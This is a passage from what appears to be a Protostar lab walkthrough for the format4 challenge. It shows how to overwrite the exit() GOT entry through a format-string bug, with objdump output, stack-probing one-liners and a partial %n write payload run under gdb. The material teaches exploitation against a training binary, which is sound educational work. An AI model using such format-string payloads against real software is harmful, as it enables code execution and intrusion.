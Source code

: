 We are going to redirect the execution flow by overwriting the entry for the
`exit()` function in the Global Offset Table (GOT). Without going into great
detail, the GOT is essentially how shared library functions are loaded in a
dynamically linked ELF binary. Eli Bendersky's [blog post][got-blog-post] has
a good explanation on how it works.

Taking a look at the binary with objdump, we see that the `exit()` function has
an entry in the GOT at `0x08049724`. If we overwrite the value at that address
with the memory address of `hello()` we should be successful.


```shell
user@protostar:/opt/protostar/bin$ objdump -TR /opt/protostar/bin/format4

/opt/protostar/bin/format4:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin


DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets
08049714 R_386_JUMP_SLOT   __libc_start_main
08049718 R_386_JUMP_SLOT   _exit
0804971c R_386_JUMP_SLOT   printf
08049720 R_386_JUMP_SLOT   puts
08049724 R_386_JUMP_SLOT   exit
```

As with all format string attacks, we start by locating the input string on the
stack.

```shell
user@protostar:/opt/protostar/bin$ python -c "print 'AAAA' + '%x.'*3 + '%x'" | /opt/protostar/bin/format4
AAAA200.b7fd8420.bffff5c4.41414141
```

Next, we attempt to write all 4 bytes of the `exit()` GOT entry.

```shell
user@protostar:/tmp$ python -c "print '\x24\x97\x04\x08\x25\x97\x04\x08\x26\x97\x04\x08\x27\x97\x04\x08' + '%x.'*3 + '%n%n%n%n'"> a
(gdb) run < a
Starting program: /opt/protostar/bin/format4 < a
200.b7fd8420.bffff5b4.

Program received signal SIGSEGV, Segmentation fault.
0x26262626 in ?? ()
```


[exploit-exercises]: https://exploit-exercises.com
[protostar-stack-writeup]: 2018-05-22-protostar-walkthrough-stack
[exploiting-format-string-paper]: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
[got-blog-post]: https://eli.thegreenplace.net/2011/11/03/position-independent-code-pic-in-shared-libraries/